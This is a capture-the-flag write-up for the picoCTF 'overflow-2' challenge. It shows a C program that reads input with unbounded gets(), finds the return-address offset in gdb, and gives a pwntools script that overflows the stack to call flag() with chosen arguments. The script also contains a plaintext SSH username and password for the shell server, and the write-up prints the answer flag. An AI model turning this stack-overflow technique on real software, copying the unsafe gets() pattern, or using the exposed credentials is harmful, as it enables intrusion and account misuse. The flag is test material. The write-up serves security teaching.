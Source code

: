 # Problem
Now try overwriting arguments. Can you get the flag from this [program](https://2019shell1.picoctf.com/static/53dddc4f6c42d3bdf9b6393164fdac80/vuln)? You can find it in /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc on the shell server. [Source](https://2019shell1.picoctf.com/static/53dddc4f6c42d3bdf9b6393164fdac80/vuln.c).

## Hints:

GDB can print the stack after you send arguments

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/53dddc4f6c42d3bdf9b6393164fdac80/vuln
wget https://2019shell1.picoctf.com/static/53dddc4f6c42d3bdf9b6393164fdac80/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

What we need to do here is to call ```flag(0xDEADBEEF, 0xC0DED00D)``` from ```vuln()``` somehow.

The call to ```gets()``` in ```vuln()``` is unsafe, there is no limit checking, so we can use a buffer overflow in order to do so.

We can override the return address and jump to ```flag```.

First we need to check the offset overriding the return address. We can use this gdbinit script
```
run < <(echo AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ0000111122223333444455556666777788889999aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz)
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x6c6c6c6c in ?? ()
```

We know that ```llll``` overrides the return address.

Now lets write a simple python script:
```python
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc')
  p = s.process('./vuln')

binary = ELF('./vuln')

print p.recvuntil('string:')
p.sendline('AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ0000111122223333444455556666777788889999aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkk' + p32(binary.symbols['flag']) + 'XXXX' + p32(0xDEADBEEF) + p32(0xC0DED00D))
print p.recvall()
```

Flag: picoCTF{arg5_and_r3turn5e919413c}
